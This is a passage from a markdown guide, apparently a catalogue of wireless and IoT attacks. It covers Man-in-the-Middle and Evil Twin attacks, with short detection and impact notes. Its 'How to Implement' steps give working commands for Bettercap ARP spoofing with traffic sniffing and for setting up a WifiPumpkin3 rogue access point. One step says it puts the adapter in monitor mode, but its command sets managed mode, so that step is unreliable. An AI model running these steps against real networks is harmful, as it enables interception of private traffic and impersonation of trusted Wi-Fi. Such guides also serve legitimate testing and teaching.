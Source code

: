 #### Detection Features
- Presence of unique `de-auth` packets in PCAP files.

#### Real-World Impact
- **System**: Prevented device actuation.
- **User**: Loss of control, inconvenience.


### 5. Man-in-the-Middle (MiTM)
#### What is it?
Intercepts communication between devices without their knowledge.

#### Tools and Hardware
- **Hardware**: Laptop with Wi-Fi adapter.
- **Software**: Bettercap.

#### How to Implement
1. Run Bettercap:
   ```bash
   sudo bettercap
   ```
2. Perform ARP spoofing:
   ```bash
   set arp.spoof.targets [Target_IP]
   arp.spoof on
   net.sniff on
   ```

#### Detection Features
- Duplicate MAC addresses and mismatched ARP tables.

#### Real-World Impact
- **System**: Data interception.
- **User**: Privacy breach.


### 6. Evil Twin Attack
#### What is it?
Creates a rogue access point impersonating a legitimate network.

#### Tools and Hardware
- **Hardware**: Alfa adapter (AWUS036ACU).
- **Software**: WifiPumpkin3.

#### How to Implement
1. Install WifiPumpkin3:
   ```bash
   sudo apt install wifipumpkin3
   ```
2. Configure the adapter in monitor mode:
   ```bash
   sudo ip link set wlan1 down
   sudo iwconfig wlan1 mode managed
   sudo ip link set wlan1 up
   ```
3. Start WifiPumpkin3:
   ```bash
   sudo wifipumpkin3
   ```
4. Configure the rogue AP:
   ```bash
   set interface wlan1
   set ssid FakeSSID
   set proxy noproxy
   start
   ```
